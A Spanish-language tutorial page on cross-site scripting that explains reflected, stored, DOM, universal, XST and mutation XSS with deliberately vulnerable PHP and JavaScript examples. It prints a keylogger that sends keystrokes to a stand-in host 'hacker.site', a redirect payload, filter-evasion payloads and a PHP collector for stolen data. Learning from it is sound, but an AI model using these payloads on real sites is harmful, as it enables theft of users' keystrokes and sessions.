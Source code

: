 ```yaml
---
title: 'Cross-Site Scripting (XSS)'
description: ''
pubDate: 'Jul 08 2022'
heroImage: '/placeholder-hero.jpg'
slug: vuln/xss
---
```


### Reflected XSS (server)

Ocurre cuando la data del usuario es enviada a la aplicación web y es inmediatamente repetida de vuelta al contenido no confiable

La victima trae la carga en su request a la página vulnerable,
esta carga se inserta en la webapp y el navegador lo executa.

```php
<?php $name = @$_GET['name']; ?>

Welcome <?=$name?>
```

### Stored or Persistent XSS (server)

La carga se ejecuta en todos los usuarios que visiten la página.
El código es guardado por la app, sin sanitizar y luego rendereado.

El código malicioso puede ser injectado, por los atacantes, directamente por la webapp.

```php

<?php
$file = 'newcomers.log';
if(@$_GET['name']) {
  $current = file_get_contents($file);
  $current .= $_GET['name']."\n";
  // almacena 'newcomer'
  file_put_contents($file, $current);
}
// si admin muestra 'newcomers'
if(@$_GET['admin'] == 1) {
  echo file_get_contents($file);
}
>

```

### DOM XSS | Type-0 | Local XSS (client)

Es dado cuando JavaScript usa los datos del usuario como parte de su lógica igual que _reflected_ pero sin interactuar con el lado del servidor.

```php
# Toda la información del DOM esta disponible, URL, history, cookies, etc.

# Hay dos llaves fundamentales: SOURCES y SINKS
<h1 id='welcome'></h1>
<script>
  var w = "Welcome";
  // location.hash -> SOURCE del input desconfiable
  var name = document.location.hash.substr(
    document.location.hash.search(/#w!/i) + 3,
    document.location.hash.length
  );
  // innerHTML -> SINK donde el input es usado
  document.getElementById('welcome').innerHTML = w + name;
</script>

# Sumideros(sinks) son como puntos en la corriente de agua donde dependiendode la fuente(input del usuario) puede ser peligroso resultando en la perdida de Confidencialidad, Integridad y Disponibilidad.
```

### Universal XSS | UXSS

No aprovecha las fallas de la "App" sino de las extensiones, plugins.

### Cross-Site Tracking (XST)

<script>
  // TRACE Request
  var xmlhttp = new XMLHttpRequest()
  var url = 'http://victim.site'
  xmlhttp.withCredentials = true
  xmlhttp.open('TRACE', url)

  // Callback para registrar todas las cabezeras de la respuesta
  function hand() {
    console.log(this.getAllResponseHeaders())
  }
  xmlhttp.onreadystatechange = hand
  xmlhttp.send()
  // Si todo va bien podemos leer las cabezeras de vuelta del request'TRACE', esta tecnica es antigua y los navegadores lo bloquean
</script>

### XSS Ataques

- Recoleccion de cookies
- Desfiguraciones
- Phishing
- Keylogging
- Ataques de Red
- Auto-XXS

**Desfiguraciones**

Con este ataque se intenta dar un mensaje preciso o información engañosa a los usuarios.

_Virtul:_ Si explotamos un defecto que no modifique el contenido hosteado en la web objetivo, entonces es un desfiguracion virtual. Esto pasa en XSS Reflejado

_Persistente:_ En este caso la página es modificada permanentemente, el atacante no necesita engañar a los usuarios para que visiten una URL creada.

**Phishing**

URLCrazy es una herramienta de linea de comandos que genera y prueba tipos de dominios y variaciones para detectar y realizar allanamiento de tipos, URL hijacking, phishing, y espionaje.

**keylogging**

```javascript
var keys = ''
document.onkeypress = function (e) {
	var get = window.event ? event : e
	var key = get.keyCode ? get.keyCode : get.charCode
	key = String.fromCharCode(key)
	keys += key
}

window.setInterval(() => {
	if (keys !== '') {
		var path = encodeURI('http://hacker.site/keylogger?k=' + keys)
		new Image().src = path
		keys = ''
	}
}, 1000)
```

Algunos frameworks:

- _http_javascript_keylogger (Metasploit)_
- _Event logger:_ Es mas sofisticado

---

data:text/html,<script>document.location="http://hacker.site"</script>

javascript:{this.window='<script>document.location="https://google.com"</script>'}

### mXSS

Es un vector que ocurre en el innerHTML y esta relacionado con las propiedades del DOM

```html
<!-- input -->
<p>Hi
<p/id=pID>Hi
<?Hi
<DiV/><doce///>Hi</plaintext><h1>high

<!-- Output -->
<p>Hi</p>
<p/id=pID>Hi</p>
<!-- Hi -->
<div><code>Hi<h1>high</h1></code></div>

<!--  -->
<!--  -->
<div><&lt;img src=1 onerror=alert(1)&gt;</div>

<!--  -->
<img srtle="font-fa\22onerror\3d\61lert\28\31\29\20mily:'arial'"src="x:x" />

<!--  -->
<p style="font-family:'ar&quot;;x=expression(alert(1))\*ial'"></p>

<!--  -->
<p style ="font-family:'ar\27\3bx\3aexpression\28\61lert\28\31\29\3bial'"></p>

<!--  -->
<article xmlns="urn:img src=x onerror=xss()//">


<!-- Pasando parametros a funciones con el parentesis bloqueado -->

<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
<!-- onerror=alert;throw 1; -->

<img src='x' onerror="window.onerror=eval;throw'\u003d&#x0061;&#x006C;ert&#x0028;1&#41;'">


```

### Guardando logs

```php
# php script

$fn="log.txt"
$fh=fopen($fn,'a')
$data=$_GET['q']
fwrite($fh,$data)
fclose($fh)
```
